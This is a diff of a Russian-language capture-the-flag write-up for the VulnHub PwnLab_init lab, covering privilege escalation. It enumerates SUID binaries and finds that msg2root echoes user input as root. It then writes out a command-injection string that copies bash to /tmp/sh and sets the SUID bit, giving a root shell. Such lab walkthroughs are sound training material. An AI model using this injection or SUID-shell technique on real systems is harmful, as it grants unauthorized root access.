

Before and after one commit to 0x2d-pentest/VulnHub, a Markdown page: Lin Easy - PwnLab_init/writeup.md, the part around one of its changes. Shown at 94% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Lin Easy - PwnLab_init/writeup.md
+++ b/Lin Easy - PwnLab_init/writeup.md
@@ -693,6 +693,56 @@ mike@pwnlab:/tmp$
 
 ```
 
+`linpeas` у Майка работать не захотел, вручную ищу вектора
+```bash
+mike@pwnlab:/tmp$ sudo -l
+sudo -l
+bash: sudo: command not found
+mike@pwnlab:/tmp$ find / -type f -perm -04000 -ls 2>/dev/null
+find / -type f -perm -04000 -ls 2>/dev/null
+  3603   36 -rwsr-xr-x   1 root     root        34684 Mar 29  2015 /bin/mount
+  4989   40 -rwsr-xr-x   1 root     root        38868 Nov 19  2015 /bin/su
+  3604   28 -rwsr-xr-x   1 root     root        26344 Mar 29  2015 /bin/umount
+ 18810   96 -rwsr-xr-x   1 root     root        96760 Aug 13  2014 /sbin/mount.nfs
+ 27220    8 -rwsr-sr-x   1 root     root         5364 Mar 17  2016 /home/mike/msg2root
+ 27221    8 -rwsr-sr-x   1 mike     mike         5148 Mar 17  2016 /home/kane/msgmike
+  5009   40 -rwsr-xr-x   1 root     root        38740 Nov 19  2015 /usr/bin/newgrp
+   354   52 -rwsr-xr-x   1 root     root        52344 Nov 19  2015 /usr/bin/chfn
+ 17895   52 -rwsr-sr-x   1 daemon   daemon      50644 Sep 30  2014 /usr/bin/at
+   358   52 -rwsr-xr-x   1 root     root        53112 Nov 19  2015 /usr/bin/passwd
+ 18898   96 -rwsr-sr-x   1 root     mail        96192 Feb 11  2015 /usr/bin/procmail
+   355   44 -rwsr-xr-x   1 root     root        43576 Nov 19  2015 /usr/bin/chsh
+   357   80 -rwsr-xr-x   1 root     root        78072 Nov 19  2015 /usr/bin/gpasswd
+ 11725    8 -rwsr-xr-x   1 root     root         5372 Feb 24  2014 /usr/lib/eject/dmcrypt-get-device
+  2813   12 -rwsr-xr-x   1 root     root         9540 Feb 11  2016 /usr/lib/pt_chown
+ 18078  356 -rwsr-xr--   1 root     messagebus   362672 Aug  2  2015 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
+ 18859  552 -rwsr-xr-x   1 root     root       562536 Jan 13  2016 /usr/lib/openssh/ssh-keysign
+ 17980 1060 -rwsr-xr-x   1 root     root      1085236 Mar 13  2016 /usr/sbin/exim4
+mike@pwnlab:/tmp$
+```
+
+Выполняю `/home/mike/msg2root`
+```bash
+mike@pwnlab:/tmp$ /home/mike/msg2root
+/home/mike/msg2root
+Message for root: test
+test
+mike@pwnlab:/tmp$ strings /home/mike/msg2root
+```
+
+И нахожу там такие строки
+```bash
+[^_]
+Message for root:
+/bin/echo %s >> /root/messages.txt
+;*2$"(
+```
+
+Похоже, что если я передам `test; cp /bin/bash /tmp/sh; chmod +s /tmp/sh; /bin/echo nothing > /dev/null`
+то выполнится следующая череда команд с правами **root**
+```bash
+/bin/echo test; cp /bin/bash /tmp/sh; chmod +s /tmp/sh; /bin/echo nothing > /dev/null >> /root/messages.txt
+```
 
 ## 🏁 Флаги
 
````
Also changed, not shown: other parts of Lin Easy - PwnLab_init/writeup.md (+48 -2 lines).
